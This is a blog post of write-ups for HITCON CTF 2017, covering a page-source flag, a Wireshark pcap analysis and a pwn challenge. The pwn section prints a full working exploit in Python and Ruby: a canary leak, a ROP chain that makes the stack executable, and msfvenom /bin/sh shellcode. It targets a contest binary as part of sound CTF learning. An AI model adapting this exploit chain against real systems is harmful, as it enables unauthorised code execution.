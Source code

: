 ```yaml
---
layout: post
title: HITCON CTF 2017
tags: [ctfwriteups]
---
```


We solved 4 challenges in this CTF.
- misc
  - [Visual Acuity](#visual-acuity)
  - [Data & Mining](#data-and-mining)
- web
  - [BabyFirst Revenge](#babyfirst-revenge)
- pwn
  - [Start](#start)

## Visual Acuity 

> Welcome to HITCON CTF 2017  
> Your flag is here:

Below the challenge prompt was a `<div>` with a very large letter `h` and presumably some other text. Inspecting the page source leads you to the flag.

![Flag for Visual Acuity](/assets/hitcon2017/visualacuity.png)

The flag is `hitcon{enjoy_our_adaptive_scoring_system}`.

## Data and Mining

> My NAS is always busy...  
> [traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng](https://xmunoz.com/ctfs/hitcon2017/traffic-1b2b39e2c2231e6b98c77700da047b78.pcapng)

The provided file is a 230 MB pcap. Let's download the pcap and open it in wireshark. 

![Wireshark pcap](/assets/hitcon2017/wireshark.png)

The first thing to notice is that much of the traffic seems to be in a protocol called "IPA". A quick google search reveals that "IPA" stands for "GSM over IP". I don't know anything about GSM over IP, but a closer inspection of the packet data reveals that this classification might be incorrect.

![ipa packet](/assets/hitcon2017/ipa.png)

That looks like good ol' HTTP to me. Wireshark has misclassified the protocol for these packets. Disable the IPA protocol by natigating to Analyze > Enabled Protcol.

![disable ipa](/assets/hitcon2017/ipadisable.png)

This didn't appear to have the desired effect for me. To really turn off IPA, go to Edit > Preferences and in the Protocols section, set the GSM IPA TCP port to 0.

![disable ipa again](/assets/hitcon2017/ipadisable2.png)

This causes wireshark to rescan the whole packet capture, which can take a while depending on your hardware. Now the packet capture should look something like this.

![new packet capture](/assets/hitcon2017/newcapture.png)

It's now possible to follow the TCP streams and look for interesting data. To look at a particular stream, right click any packet > Follow... > TCP Stream.

![follow tcp stream](/assets/hitcon2017/followstream.png)

The flag is found in stream 42, which can be filtered for with the expression `tcp.stream eq 42`. The flag is `hitcon{BTC_is_so_expensive_$$$$$$$}`.

## BabyFirst Revenge

> Do you remember BabyFirst from HITCON CTF 2015?  
> This is the harder version!  
> http://52.199.204.34/

## Start

> Have you tried pwntools-ruby?  
> nc 54.65.72.116 31337  
> [start-7a3715a6bd61783850f9c109dbc57571.zip](/assets/hitcon2017/start-7a3715a6bd61783850f9c109dbc57571.zip)

Once connected, the server serving the `server.rb` script makes it clear that the start binary is hosted locally and that a ruby script must provided for it to run.

![server.rb](/assets/hitcon2017/serverrb.png)

Quickly looking over the `server.rb` script it seems to import the [ruby port](https://github.com/peter50216/pwntools-ruby) of the [pwntools library](https://github.com/Gallopsled/pwntools) - knowing this let's start reversing and creating an exploit for the `start` binary using pwntools, to hopefully later on send the script to the server.

A stack canary is put on the stack preventing us from conventional buffer overflows or similar things that tamper with the stack. 

![stack canary](/assets/hitcon2017/canary.png)

Luckily there is a way to leak the canary abusing the `puts()` call. Reading in 24 characters and a newline char `\n`, `puts()` will print the canary except the last char which is overwritten by the `\n`. Luckily, the last char of the canary is a null-byte in this case so it won't matter.


Once the canary is obtained, it is a simple matter of creating the exploit.There are likely multiple paths to success once we control the return address. I chose to go with `mprotect()` which is a syscall allowing us to overwrite permissions on the stack, making it executable. This is necessary, since the binary is protected by [DEP/NX](https://msdn.microsoft.com/en-us/library/windows/desktop/ff966508(v=vs.85).aspx) which marks the stack, and potentially other memory regions, as non-executable.

The function `_dl_make_stack_executable` is already present in our static binary. It is essentially a wrapper around the `mprotect()` syscall. Using this function the stack is made executable, a payload is generated with `msfvenom` and the exploit is mounted.

Here is the initial script I wrote in python (to be ported to ruby).

```
#!/usr/bin/python2.7

import sys
from pwn import *

# Payload
payload = "A"*24 + "\n"

r = process('./start')

r.send(payload)

r.recvline() #echo

canary = struct.unpack("<Q", "\x00" + r.recv()[0:7])[0]
print "Leaked canary: " + hex(canary)

payload2 = "exit\n" + "A"*19 + struct.pack("<Q", canary) + "A"*8

payload2 += p64(0x466c09) # 0x0000000000466c09: pop rsi; ret;
payload2 += p64(0x6cbfe0) # 00000000006cbfe0 <__stack_prot>
payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret; 
payload2 += p64(0x7) # RWX Flag
payload2 += p64(0x41881b) # 0x000000000041881b: mov qword ptr [rsi], rdi; ret;

payload2 += p64(0x4005d5) # 0x00000000004005d5: pop rdi; ret
payload2 += p64(0x6cbf90) # 00000000006cbf90 <__libc_stack_end>:
payload2 += p64(0x4768a0) # 00000000004768a0 <_dl_make_stack_executable>:

# JMP RSP
payload2 += p64(0x4a554f) # 0x00000000004a554f: jmp rsp; 

# msfvenom -f python -p linux/x64/exec CMD=/bin/sh --platform linux
buf =  ""
buf += "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6"
buf += "\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68"
buf += "\x00\x56\x57\x48\x89\xe6\x0f\x05"

payload2 += "\x90"*20 + buf

r.send(payload2 + "\n")

r.interactive()
r.clean()
r.close()
```

Once run a shell is obtained.

![local shell](/assets/hitcon2017/local-shell.png)

Porting to ruby was somewhat challenging, as I have little to no experience in ruby (although not much has to be changed). As far as I know, it is also not possible to make use of the interactive pipe in this case. Therefore, I chose to run single commands on the system eventually using `cat` to read the flag. I chose to re-write the script as a ruby one-liner although there are other ways to send it, through python sockets for example. This is the final ruby script sent to the server.

```
payload = "A"*24 + "\n" ;r = Sock.new '127.0.0.1', 31338 ;r.send(payload) ;r.recvline() ;canary = unpack("\x00" + r.recv()[0, 7], bits: 64, endian: 'little', signed: false) ;puts "Leaked canary: " + "0x" + canary.to_s(16) ;payload2 = "exit\n" + "A"*19 + p64(canary) + "A"*8 ;payload2 += p64(0x466c09) ;payload2 += p64(0x6cbfe0) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x7) ;payload2 += p64(0x41881b) ;payload2 += p64(0x4005d5) ;payload2 += p64(0x6cbf90) ;payload2 += p64(0x4768a0) ;payload2 += p64(0x4a554f) ;buf = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57\x48\x89\xe6\x0f\x05"; payload2 += "\x90"*20 + buf; r.send(payload2 + "\n"); r.sendline('/bin/cat /home/start/flag'); puts r.recv()
```

And flag received!

![flag](/assets/hitcon2017/flag.png)

The flag is `hitcon{thanks_for_using_pwntools-ruby:D}`




